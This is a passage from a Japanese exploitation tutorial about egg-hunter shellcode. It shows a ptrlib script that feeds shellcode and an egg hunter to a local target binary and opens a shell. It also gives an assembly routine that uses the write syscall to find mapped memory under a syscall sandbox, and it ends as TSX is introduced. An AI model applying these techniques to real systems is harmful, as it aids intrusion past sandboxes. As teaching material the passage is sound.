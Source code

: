   </p>
</div>

実行すると、`id`コマンドを起動する本体のシェルコードが呼び出されます。
```python
from ptrlib import *

shellcode = nasm(open("shellcode.S").read(), bits=64)
egg_hunter = nasm(open("hunter.S").read(), bits=64)

sock = Process("./runner")
sock.sendafter("data: ", shellcode)
sock.sendafter("shellcode: ", egg_hunter)
sock.sh()
```

## アドレスの探索

時としてヒープ（本体のシェルコードが置かれている領域）のアドレスが分からないときがあります。アドレスに関する情報がない場合は、どうすれば良いでしょうか。

最初に考えられる方法として、`/proc/self/maps`からメモリマップを読む方法や`mmap`を使って特定の領域がマップされているかを調べる方法があります。しかし、ひよこ先生が言っていたように、ここではシステムコールが制限されている状況を考えます。

Linuxで特定のアドレスがマップされているかを調べるシステムコールは提供されていませんが、方法はあります。

### 安全なシステムコールの利用

システムコールはカーネル空間で処理されるため、どんな呼び方をしてもユーザー空間側のプログラムはクラッシュしないように設計されています。つまり、アドレスを受け取るようなシステムコールに不正なアドレスを渡すと、エラー番号が返ります。

これを利用すれば、`write`のようにたいていのサンドボックス下でも利用できるシステムコールで、特定のアドレスがマップされているか（正確にはリード可能か）を調べられます。

`mmap`と違って探索は線形にしかできませんが、ヒープのサイズは大きいことが期待されるため、ある程度大きいサイズをスキップしながら読み込み可能な領域を見つけられます。

```
;; is_mapped 与えられたアドレスが読み込み可能かを調べる。
;;   arg1 (rdi): 調べるアドレス
;;   returns: 読み込み可能なら1を、そうでなければ0
is_mapped:
  ; write(1, address, 1)
  mov edx, 1
  mov rsi, rdi
  mov edi, edx
  mov eax, edx
  syscall
  test rax, rax
  setns al
  movzx eax, al
  ret
```

### TSXの利用

IntelのHaswellプロセッサあたりから、 **TSX (Transactional Synchronization Extensions)** と呼ばれる機能が登場しました。TSXは、命令列をアトミックに実行するための機能で、並列プログラミングで役立ちます。
